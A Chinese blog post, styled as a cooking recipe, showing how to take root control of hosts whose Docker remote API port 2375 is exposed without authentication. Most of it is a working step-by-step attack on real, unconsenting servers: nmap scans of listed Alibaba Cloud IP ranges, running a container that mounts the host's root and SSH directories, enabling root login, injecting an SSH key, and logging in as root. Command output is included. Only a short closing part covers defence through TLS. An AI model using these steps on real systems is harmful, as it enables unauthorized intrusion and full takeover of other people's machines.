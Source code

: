# 2375攻击

相信了解过[docker](https://so.csdn.net/so/search?q=docker&spm=1001.2101.3001.7020) remote API的同学对2375端口都不陌生了，2375是docker远程操控的默认端口，通过这个端口可以直接对远程的docker daemon进行操作。

当\$HOST主机以**`docker daemon -H=0.0.0.0:2375`**方式启动daemon时，可以在外部机器对 \$HOST 的docker daemon进行直接操作：

```bash
docker -H tcp://$HOST:2375 ps
```

好，说说如何“入侵”，怎么通过这个端口入侵宿主机呢？

这个应该要从几个点说起吧：
- 1. docker对`user namespace`没有做隔离，也就是说，容器内部的root用户就是宿主机的root用户，一旦挂载目录，就可以在容器内部以宿主机的root用户身份对挂载的文件系统随意修改了。

- 1. docker服务拥有很高的执行权利(相当于root)，并且在docker用户组下的普通用户不需要任何其他验证就可以执行docker run等命令。
- 2. 暴露的docker remote  API端口如果没有启动ssl验证的话，任何能连通到这台docker宿主机的的机器都可以随意操作这台docker宿主机的docker  daemon（docker run、docker ps、docker rm等等这些命令都不在话下）。

结合以上3点，就基本具备入侵docker宿主机的条件了

讲得似乎有点悬，不多说，直接拿一个活鲜鲜的例子来讲吧：

(请允许我用最近新学的一道菜将流程带过 ╮(￣▽￣)╭ )

### 秘制红烧肉(docker版)

材料：一整块一整块的“5花”IP段，越肥越好（小白用户越多越好）

配料：nmap，docker

step 1: 扫描2375端口

怎么扫？我选用的是简单易用的黑客必备神器`nmap`了。

扫哪里呢？我选的目标是aliyun的IP段，百度得知：

```bash
42.96.128.0/17    Alibaba (Beijing) Technology Co., Ltd. China  
42.120.0.0/16    Aliyun Computing Co., LTD China  
42.121.0.0/16    Aliyun Computing Co., LTD China  
42.156.128.0/17    Aliyun Computing Co., LTD China  
110.75.0.0/16    Asia Pacific Network Information Centre China  
223.7.0.0/16    Hangzhou Alibaba Advertising Co.,Ltd. 
```

我不生产IP，我只是百度的搬运工，别问我这些IP从那来，我也想知道~ >.<

将上面IP内容保存在一个文件中，如 aliyun.list

开始扫描：

```bash
cat aliyun.list| awk '{print $1}' | xargs -n 1 -I {} nmap -sT -p2375 {} --open    

# 简单解释一下命令：
# awk 将第一列IP网段过滤出来
# xargs 将过滤出来的IP一个一个的分次送给nmap，-I {} 是指使用{}来代替传送的参数
# ...
# Starting Nmap 7.01 ( https://nmap.org ) at 2016-06-05 09:57 CST
# Nmap scan report for 42.96.MOSAIC.MOSAIC
# Host is up (0.070s latency).
# PORT     STATE SERVICE
# 2375/tcp open  docker
# ...
```

不到两分钟，第一块`42.96.MOSAIC.MOSAIC`（五花肉已打码） “五花肉”选好了，来吧~

### step 2: 测试2375的直接控制权

```bash
docker -H tcp://42.96.MOSAIC.MOSAIC:2375 ps
# CONTAINER ID        IMAGE                              COMMAND                  CREATED            STATUS             PORTS           
# 73aa690e7c92        imdjh/owncloud-with-ocdownloader   "/entrypoint.sh"         9 days ago          Up 3 days           0.0.0.0:9009->80
# f57c56af0e29        rethinkdb:2.3.2                    "rethinkdb --bind all"   9 days ago          Up 3 days           8080/tcp, 28015/
# 37c1401db593        gaomd/ikev2-vpn-server:0.3.0       "/bin/sh -c /usr/bin/"   10 days ago         Up 3 days           0.0.0.0:500->500
# af7338a5426d        nginx:1.9-alpine                   "nginx -g 'daemon off"   3 weeks ago         Up 3 days           443/tcp, 0.0.0.0
# ...
```

这个服务器的owner也太配合了(⊙ο⊙)，ps直接看到内容，说明这个主机的2375是没有ssl验证的，基本满足入侵要求。

“五花”洗好，切好，准备下锅~

### step 3: 远程启动自己的容器

拿到了docker的控制权能做什么呢？ **拿到了就呵呵了~**

```r
# images 看看本地已有的镜像
# docker -H tcp://42.96.MOSAIC.MOSAIC:2375 images
# ...
# swarm                              latest              47dc182ea74b        4 weeks ago         19.32 MB
# jwilder/nginx-proxy                latest              203b20631e41        4 weeks ago         255.6 MB
# ubuntu                             latest              c5f1cf30c96b        4 weeks ago         120.8 MB
# shipyard/shipyard                  latest              ba426f0944bc        5 weeks ago         58.92 MB
# ...
```

省略了一部分输出，镜像还蛮多的，就选个ubuntu吧

```objectivec
# docker -H tcp://42.96.MOSAIC.MOSAIC:2375 run --rm -it --entrypoint bash -v /root:/tmp/root -v /etc/ssh:/tmp/ssh_etc -v /var/log:/tmp/log ubuntu
```

看到这步，相信对ssh有一些了解的同学应该就明白了

### step 4: ssh pub key 注入

在刚刚启动的容器中先看看 `/tmp/ssh_etc/sshd_config` (就是宿主机的`/etc/ssh/sshd_config`) 的PermitRootLogin字段。如果是`no`就改成`yes`，允许root通过ssh登录

然后在**你的机器上**生成一对新的pub key（已经有ssh key的也建议生成一个新的，不要使用自己日常使用的ssh pub key）

```perl
# 使用 ssh-keygen生成
ssh-keygen -t rsa -C "hello@world.com"
# 执行命令后的提示Enter file in which to save the key要看好，不要把自己的ssh key覆盖了，可以选着/tmp/id_rsa
# 其他提示enter到底即可
```

继续，注入ssh pub key，回到**刚刚启动的容器**执行

```bash
cat >> /tmp/root/.ssh/authorized_keys <<EOF
>ssh-rsa AAA....     # 这里粘贴你刚刚在自己机器生成的/tmp/id_rsa.pub
>EOF
# 如果/tmp/root/.ssh目录不存在，就直接创建
```

八角香叶生抽老抽醋都加上，中火烹饪，准备出锅~

### step 5: 登入服务器

```ruby
# ssh -i 指定秘钥登录
ssh -i /tmp/id_rsa root@42.96.MOSAIC.MOSAIC
# Welcome to Ubuntu 14.04.1 LTS (GNU/Linux 3.13.0-32-generic x86_64)
# ssh -i 指定秘钥登录
ssh -i /tmp/id_rsa root@42.96.MOSAIC.MOSAIC
 
# Welcome to Ubuntu 14.04.1 LTS (GNU/Linux 3.13.0-32-generic x86_64)
#
# * Documentation:  https://help.ubuntu.com/
#
# Welcome to aliyun Elastic Compute Service!
#
# Last login: Fri Jun  3 01:38:07 2016 from 120.85.MOSAIC.MOSAIC
# manpath: can't set the locale; make sure $LC_* and $LANG are correct
# root@iZ28p9b7e***:~# 
# ...

```

大火收汁，起锅!

## 郑重声明

以上教程仅为交流学习之用，`42.96.MOSAIC.MOSAIC` 服务器上的`id_rsa.pub`在制作完本教程后已主动清除，并在服务上留言告知。

如果你一不小心也发现了可用的2375端口，**希望也能点到即止，误做他用**，或者发现其他入侵漏洞，可以和大家交流学习。

## 2375是docker漏洞吗？

非也！**2375直接裸露地暴露在公网上纯属是用户习惯或者偷懒的问题**，**2375可以在相对安全的内部网络中方便测试使用，并不适合使用在投入到生产环境中。**

docker官网第一篇文档quick start上有句话是这样子的：

```vbnet
Warning: Changing the default docker daemon binding to a TCP port or
Unix docker user group will increase your security risks by allowing
non-root users to gain root access on the host. Make sure you control
access to docker. If you are binding to a TCP port, anyone with
access to that port has full Docker access; so it is not advisable
 on an open network.
```

已经Warning告知：如果将daemon直接暴露在一个TCP端口，将可能会被以非root用户去获取宿主机的root权限。其实上面的说提到的服务器之所以这么容器被入侵，也正是这个原因。

## 何以防之

那么，问题来了，如果想用Remote API，又不想有被入侵的风险，怎么办呢？

docker官方文档上介绍了一种通过CA认证方式使用Remote API

具体可以参考：[Protect the Docker daemon socket](https://docs.docker.com/engine/security/https/)

(等理解了再补一篇博客吧，就姑且让我以一个链接的形式带过吧O.O)

配置过程还算是比较简单的，下面放一张图，展示配置SSL后的效果：

 

![img](Docker 2375攻击和解决方案.assets/t_70.png)

文章知识点与官方知识档案匹配，可进一步学习相关知识
